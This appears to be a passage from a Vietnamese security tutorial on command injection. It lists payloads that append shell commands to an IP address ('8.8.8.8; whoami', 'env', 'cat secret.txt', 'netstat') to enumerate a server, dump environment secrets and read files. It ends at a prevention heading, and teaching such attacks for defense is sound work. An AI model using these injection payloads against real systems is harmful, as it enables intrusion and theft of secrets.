 ### System Information

```bash
# User info
8.8.8.8; whoami
8.8.8.8; id
8.8.8.8; groups

# System info
8.8.8.8; uname -a
8.8.8.8; hostname
8.8.8.8; uptime

# Environment
8.8.8.8; env
8.8.8.8; printenv
```

### File Operations

```bash
# List files
8.8.8.8; ls -la
8.8.8.8; find . -name "*.txt"

# Read files
8.8.8.8; cat secret.txt
8.8.8.8; head -5 package.json
8.8.8.8; tail -5 server.js

# File permissions
8.8.8.8; ls -la secret.txt
8.8.8.8; file secret.txt
```

### Network Information

```bash
# Network interfaces
8.8.8.8; ifconfig
8.8.8.8; ip addr

# Network connections
8.8.8.8; netstat -tuln
8.8.8.8; ss -tuln

# DNS
8.8.8.8; nslookup google.com
8.8.8.8; dig google.com
```

## 🛡️ Cách Phòng Chống

